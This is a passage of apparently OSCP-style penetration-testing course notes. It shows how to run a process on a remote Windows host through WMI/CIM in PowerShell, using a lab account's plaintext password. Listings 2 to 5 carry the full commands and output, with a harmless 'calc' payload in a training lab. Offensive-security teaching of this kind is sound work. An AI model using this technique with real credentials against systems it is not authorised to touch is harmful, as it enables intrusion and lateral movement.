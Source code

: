 ```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

> Listing 2 - Creating the PSCredential object in PowerShell

Now that we have our PSCredential object, we need to create a *Common Information Model* (CIM) via the [*New-CimSession*](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **\-ComputerName** and supply the PSCredential object (**\-Credential $credential**) along with the session options (**\-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

> Listing 3 - Creating a new CimSession

As a final step, we need to tie together all the arguments we configured previously by issuing the *Invoke-CimMethod* cmdlet and supplying **Win32\_Process** to the *ClassName* and **Create** to the *MethodName*. To send the argument, we wrap them in **@{CommandLine =$Command}**.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

> Listing 4 - Invoking the WMI session through PowerShell

To simulate the technique, we can connect to CLIENT74 as *jeff* and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

> Listing 5 - Executing the WMI PowerShell payload.

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

![[OffSec/OSCP/z. images/2d065c86f57036ac7068a1292954748c_MD5.jpg]]


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname